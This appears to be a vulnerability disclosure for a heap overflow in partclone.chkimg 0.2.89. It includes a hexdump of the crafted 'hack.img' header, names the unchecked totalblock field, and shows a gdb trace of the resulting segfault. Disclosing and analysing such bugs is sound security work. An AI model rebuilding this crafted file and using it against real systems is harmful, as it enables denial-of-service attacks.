 # Partclone_HeapOverFlow


Partclone.chkimg that checks image has a vulnerability with openning a maliciusly craft image file.

It causes Denial-Of-Service.
<br><br>

root@ubuntu:/partclone-0.2.89# hexdump -C hack.img | more

00000000  70 61 72 74 63 6c 6f 6e  65 2d 69 6d 61 67 65 45  |partclone-imageE|

00000010  58 54 46 53 00 00 00 00  00 00 00 00 00 00 30 30  |XTFS..........00|

00000020  30 31 00 00 00 04 00 00  00 20 bf 0c 00 00 00 00  |01....... ......|

00000030  c8 2f 03 00 00 ff ff ff  ba 7a 00 00 00 00 00 00  |./.......z......|

00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|

<br><br>

(insufficient checking on offset 0x35 ~ 0x37 in image-header.totalblock)

<br><br>
root@ubuntu:/partclone-0.2.89# gdb ./partclone.chkimg

Reading symbols from ./partclone.chkimg...done.
(gdb) r -s hack.img

Starting program: partclone-0.2.89/src/partclone.chkimg -s hack.img

[Thread debugging using libthread_db enabled]

Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".

Partclone v0.2.89 http://partclone.org

Starting to check image (hack.img)

we need memory: 137438984768 bytes


image head 4160, bitmap 137438979580, crc 1028 bytes


Calculating bitmap... Please wait... image_hdr : 10000032fc8


totalblock size : 1099511836616


Program received signal SIGSEGV, Segmentation fault.


0x0804ed96 in pc_clear_bit (total=1099511836616, bitmap=0x8057d38, nr=1021504) at bitmap.h:53


53              bitmap[offset] &= ~(1UL << bit);


(gdb) x/x bitmap


0x8057d38:      0xffffffff


(gdb) p bitmap


$1 = (unsigned long *) 0x8057d38


(gdb) x/x bitmap+offset


0x8077000:      Cannot access memory at address 0x8077000		// Out of Heap memory area


(gdb) p offset


$2 = 31922


(gdb)

